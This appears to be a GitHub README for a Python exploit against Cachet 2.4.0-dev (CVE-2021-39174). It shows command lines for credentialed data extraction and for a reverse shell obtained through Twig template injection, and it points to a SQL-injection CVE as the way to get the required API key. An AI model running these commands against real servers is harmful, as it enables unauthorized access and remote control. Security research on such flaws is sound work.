 # CVE-2021-39174 Cachet 2.4.0-dev

A python3 script for CVE-2021-39174 Cachet 2.4.0-dev Information Disclosure and RCE via Twig Server Side Template Injection. For the RCE the API KEY for the user is needed. Check out the Leave Songs link below which covers how to get the API KEY via SQL Injection CVE-2021-39165.

## Getting Started

### Executing program

* Data Extraction
```
python3 cachet_2.4.0-dev.py -t http://cachet.site/ -u username -p password
```

* Reverse Shell
```
python3 cachet_2.4.0-dev.py -t http://cachet.site/ -u username -p password -k API_KEY -lhost 127.0.0.1 -lport 1337
```

## Help

For help menu:
```
python3 cachet_2.4.0-dev.py -h
```

## Acknowledgments

* [SonarSource](https://blog.sonarsource.com/cachet-code-execution-via-laravel-configuration-injection/)
* [Leave Songs](https://www.leavesongs.com/PENETRATION/cachet-from-laravel-sqli-to-bug-bounty.html)

## Disclaimer
All the code provided on this repository is for educational/research purposes only. Any actions and/or activities related to the material contained within this repository is solely your responsibility. The misuse of the code in this repository can result in criminal charges brought against the persons in question. Author will not be held responsible in the event any criminal charges be brought against any individuals misusing the code in this repository to break the law.